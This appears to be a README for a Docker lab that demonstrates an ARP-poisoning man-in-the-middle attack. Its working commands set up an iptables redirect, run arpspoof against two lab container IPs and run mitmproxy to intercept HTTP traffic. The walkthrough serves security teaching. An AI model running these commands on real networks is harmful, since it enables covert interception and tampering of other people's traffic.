 # ARP Poisoning MITM using Docker containers 

## 1. Start the Containers

```bash
(sudo) docker compose up
```

---

## 2. Enter as the attacker (you will need multiple sessions)

```bash
sudo docker exec -it attacker bash
```
---

## 3. Define rule

With that rule you're telling to intercept all incoming traffic on eth0 destined for port 80 and redirect it internally to port 8080

```bash
iptables -t nat -A PREROUTING -i eth0 \
  -p tcp --dport 80 -j REDIRECT --to-port 8080
```

---

## 4. Start ARP Poisoning

Run two `arpspoof` processes in different windows

```bash
arpspoof -i eth0 -t 192.168.90.101 192.168.90.100 
arpspoof -i eth0 -t 192.168.90.100 192.168.90.101 
```

---

## 5. Start mitmproxy

```bash
mitmproxy --mode transparent --showhost --listen-port 8080
```

You can now inspect all the requests and responses exchanged between the client and the server